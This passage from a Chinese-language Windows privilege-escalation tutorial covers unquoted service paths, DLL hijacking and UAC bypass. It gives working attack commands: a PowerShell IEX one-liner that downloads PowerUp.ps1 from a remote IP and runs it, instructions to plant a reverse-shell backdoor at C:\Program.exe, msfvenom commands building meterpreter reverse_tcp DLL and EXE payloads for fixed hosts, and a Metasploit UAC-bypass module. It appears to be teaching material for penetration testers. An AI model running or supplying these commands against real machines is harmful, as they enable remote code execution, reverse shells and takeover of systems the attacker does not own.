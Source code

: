 ```
powershell -nop -exec bypass -c "IEX (New-Object
Net.WebClient).DownloadString('http://192.168.0.106/PowerUp.ps1'); InvokeAllChecks"
```

或者使用命令

```
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr
/i /v "C:Windows" |findstr/i /v """
```

上传反弹 exe ，设置好对应执行名后，执行`sc start "Macro Expert"`

如果C盘可写上传反弹后门到 C:\Program.exe 即可 系统在重启，获取管理员重启该服务的时候就会获取系统权限，记得在 msf 设置  `set AutoRunScript migrate -f` 自动迁移进程 不然会连接就断开

### dll劫持提权

原理：Windows程序启动的时候需要DLL。如果这些DLL 不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常，Windows应用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索：

```
1、应用程序加载的目录
2、C:\Windows\System32
3、C:\Windows\System
4、C:\Windows
5、当前工作目录Current Working Directory，CWD
6、在PATH环境变量的目录（先系统后用户）
```

过程：信息收集-进程调试-制作dll并上传-替换dll-启动应用后成功

检测： ChkDllHijack 火绒剑

项目：https://github.com/anhkgg/anhkgg-tools

利用火绒剑进行进程分析加载DLL，一般寻程序DLL利用。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117  lport=4444 -f dll -o xiaodi.dll
```

提前信息收集相关软件及DLL问题程序，本地调试成功后覆盖DLL实现利用

### UAC

为了远程执行目标的exe或者bat可执行文件绕过此安全机制，以此叫BypassUAC
绕过项目：MSF内置，Powershell渗透框架，UACME项目(推荐)
开启UAC和未开启UAC时,MSF默认getsystem提权影响(进程注入)

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.46.158  lport=3333 -f exe -o msf.exe
```

1、MSF模块：
-Test in Win7 本地电脑 本地权限

```
use exploit/windows/local/bypassua
```

